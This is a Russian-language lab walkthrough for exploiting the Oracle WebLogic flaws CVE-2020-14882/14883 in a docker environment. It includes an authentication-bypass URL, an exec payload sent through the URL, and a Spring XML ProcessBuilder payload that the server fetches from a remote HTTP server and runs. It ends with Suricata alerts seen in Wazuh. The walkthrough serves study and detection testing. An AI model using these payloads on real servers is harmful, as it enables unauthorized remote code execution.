

# CVE-2020-14882/3

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-14882](https://nvd.nist.gov/vuln/detail/CVE-2020-14882)
* [https://www.opencve.io/cve/CVE-2020-14882](https://www.opencve.io/cve/CVE-2020-14882)
* [https://nvd.nist.gov/vuln/detail/CVE-2020-14883](https://nvd.nist.gov/vuln/detail/CVE-2020-14883)
* [https://www.opencve.io/cve/CVE-2020-14883](https://www.opencve.io/cve/CVE-2020-14883)

Oracle WebLogic Server — ведущий в отрасли сервер приложений для создания корпоративных приложений с использованием стандартов Java EE.&#x20;

CVE-2020-14882 позволяет пользователям обходить аутентификацию в компоненте консоли администратора, а CVE-2020-14883 позволяет аутентифицированному пользователю выполнять любую команду в этой консоли.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:7001 будет доступна страница входа в консоль администратора

<figure><figcaption></figcaption></figure>

Для обхода аутентификации и реализации CVE-2020-14882 вставьте соответствующий URL в поисковую строку&#x20;

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal
```

<figure><figcaption></figcaption></figure>

После реализации уязвимости нам не хватает привилегий для загрузки файлов

<figure><figcaption></figcaption></figure>

#### Метод 1

Обойти это можно, вставив соответствующий URL в поисковую строку с полезно нагрузкой "touch /tmp/success1"

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

<figure><figcaption></figcaption></figure>

#### Метод 2

Выполнить удаленную команду можно с помощью обращения к .xml файлу, содержащему внутри себя полезную нагрузку

Для этого вставьте следующее содержимое в ваш файл и сохраните его

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Затем с помощью Python3 поднимаем http-сервер на удаленной машине с помощью команды `python3 -m http.server <port>`&#x20;

Затем вставляем следующий URL в адресную строку

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://удаленный-ip:порт/rce.xml")
```

После отправки будет выполнено содержимое .xml файла, в данном случае будет создан файл /tmp/success2

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><figcaption></figcaption></figure>

